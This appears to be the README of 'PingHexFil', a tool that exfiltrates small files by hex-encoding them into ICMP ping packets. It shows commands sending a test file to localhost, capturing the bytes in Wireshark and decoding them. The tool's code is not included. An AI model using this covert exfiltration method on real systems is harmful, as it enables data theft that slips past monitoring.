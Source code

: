 # PingHexFil
Exfiltration of small files using ICMP
## Data Exiltration using ICMP
*NOTE* This ONLY works with files smaller than 60kB. This is due to the packet length restrictions and updates will come to break up files into 60kB chunks in the near future.
## Usage
The following is done with the example file, `examples/example1.txt`
### Step 1: Send the Bytes via ICMP
```
root@demon:~/pinghexfil# ls
decoder.py  examples  images  payloads  pinghexfil.py  README.md
root@demon:~/pinghexfil# cat examples/example1.txt 
This is a test file.
OK.
root@demon:~/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt 
[+] Opening file: examples/example1.txt
[+] Sending data as: 54686973206973206120746573742066696c652e0a4f4b2e0a
.
Sent 1 packets.
Exiting.
root@demon:~/pinghexfil# 
```
### Step 2: Gather Bytes via Wireshark
Simply right click on the data and choose **Select->as a Hex Stream** and paste the output into a file, as I did in the file `payloads/example1.txt`
![Wireshark Screenshot](images/wireshark.png)

### Step 3: Decode the Bytes
```
root@demon:~/pinghexfil# ./decoder.py payloads/example1.txt 
[+] Opening file: payloads/example1.txt
[+] file data: 54686973206973206120746573742066696c652e0a4f4b2e0a

This is a test file.
OK.

root@demon:~/pinghexfil# 
```
